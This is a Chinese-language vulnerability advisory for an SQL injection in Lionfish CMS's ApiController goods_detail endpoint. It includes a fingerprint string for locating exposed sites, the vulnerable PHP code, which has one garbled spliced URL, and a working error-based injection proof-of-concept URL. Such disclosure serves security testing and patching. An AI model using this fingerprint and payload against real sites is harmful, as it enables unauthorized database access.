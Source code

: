 # 狮子鱼CMS ApiController.class.php SQL注入漏洞

# 狮子鱼CMS ApiController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php  参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录界面如下

![](/images/202202170929987.png)

存在漏洞的文件为 **ApiController.class.php**  , 关键位置为

```php
public function goods_detail()
	{
		$goods_id = I('get.goods_id');
		//gallery =>img_url
		//goods goods.goods_desc  goods_name group_price  market_price  sell_count group_number 
		
		$sql="select g.*,gd.description,gd.summary,gd.tag from ".
		C('DB_PREFIX')."goods g,".C('DB_PREFIX')."goods_description gd where g.goods_id=gd.goods_id and g.goods_id=".$goods_id;
		
		$goods_arr=M()->query($sql);
		
		$qian=array("\r\n");
		$hou=array("<br/>");
		$goods_arr[0]['summary'] = str_replace($qian,$hou,$goods_arr[0]['summary']); 
		
		$sql="select image from ".C('DB_PREFIX')."goods_image where goods_id=".$goods_id;
		$goods_image=M()->query($sql);
		
		$gallery = array();
		$default_image = '';
		foreach($goods_image as $val)
		{
			$val['img_url'] = str_replace('http','https',C('SITE_URL')).'/Uploads/ http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/'.$val['image'];
			
			if(empty($default_image))
			{
				$default_image = str_replace('http','https',C('SITE_URL')).resize($val['image'], C('goods_thumb_width'), C('goods_thumb_height'));
			}
			
			$gallery[] = array('img_url' => $val['img_url']); 
		}
		
		$goods = $goods_arr[0];
```

![](/images/202202170929236.png)

漏洞测试为

```plain
https://xxx.xxx.xx.xxx/index.php?s=api/goods_detail&goods_id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```

![](/images/202202170929971.png)

